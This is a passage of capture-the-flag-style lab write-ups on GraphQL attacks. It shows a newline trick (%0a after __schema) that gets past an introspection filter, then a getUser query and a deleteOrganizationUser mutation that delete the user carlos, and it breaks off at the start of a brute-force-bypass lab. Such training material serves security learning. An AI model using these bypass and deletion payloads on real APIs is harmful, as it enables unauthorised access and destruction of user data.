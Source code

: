 The server response with the admin's username and password. Use it to login as administrator and delete user `carlos`.

### LAB: Finding a hidden GraphQL endpoint
Found the GraphQL endpoint at `/api`. Right click the request, choose `GraphQL` $\to$ `Set introspection query` to create a request that probe for introspection.
At first we got an error:

    {
        "errors": [
            {
            "locations": [],
            "message": "GraphQL introspection is not allowed, but the query contained __schema or __type"
            }
        ]
    }

Modify the query so that after `__schema` there is a new-line character (`%0a`). Resend this request to successfully access the introspection.
Notice the `getUser` query function, use it to look for Carlos' `id` and found out that Carlos' `id` is `3`:

    #Query
    query {
        getUser(id: 3){
            username
        }
    }

    #Response
    {
        "data": {
            "getUser": {
            "username": "carlos"
            }
        }
    }

Notice the `deleteOrganizationUser` mutation function, use it to delete user Carlos:

    mutation {
        deleteOrganizationUser(input:{id:3}){
            user{
                id
                username
            }
        }
    }

Specify the argument `input` like that because `deleteOrganizationUser` requires argument of type `DeleteOrganizationUserInput` which has an input field named `id`.

### LAB: Bypassing GraphQL brute force protections
Notice the GraphQL enpoint and the `login` mutation function:
